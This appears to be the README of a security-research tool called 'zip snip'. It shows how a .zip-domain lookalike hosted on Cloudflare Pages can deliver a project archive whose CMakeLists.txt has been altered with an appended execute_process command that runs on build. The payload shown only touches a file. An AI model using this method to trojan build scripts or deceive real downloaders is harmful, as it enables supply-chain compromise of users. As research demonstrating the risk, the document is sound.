 # zip snip 🤐✂️

Social engineering attack using a `.zip` domain.

<div align="center">
  <iframe width="560" height="315" src="https://www.youtube.com/embed/WR4IY04FqtU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
</div>

## Description

See full blog post at https://noperator.dev/posts/zip-snip/.

## Getting started

### Usage

First, prepare a malicious ZIP file. For example, the following code:
- downloads the zipped source code for a popular CLI URL parser
- extracts the project and inserts a malicious command into a build script
- zips the project back up

```
$ wget https://github.com/stricaud/faup/archive/refs/tags/v1.4.zip
$ unzip v1.4.zip
$ echo 'execute_process (COMMAND bash -c "touch /tmp/pwn")' >> faup-1.4/CMakeLists.txt
$ zip -r9 faup-1.4.zip faup-1.4
```

Next, create a Cloudflare Pages deployment (`site.zip`) that includes this malicious ZIP file.

```
$ ./build-site.sh faup-1.4.zip
```

After building a site above, nativate to Cloudflare Pages, choose (or create) your project, create a new deployment, and upload the `site.zip` file you just created.

## Back matter

### Legal disclaimer

Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

### License

This project is licensed under the [MIT License](LICENSE.md).
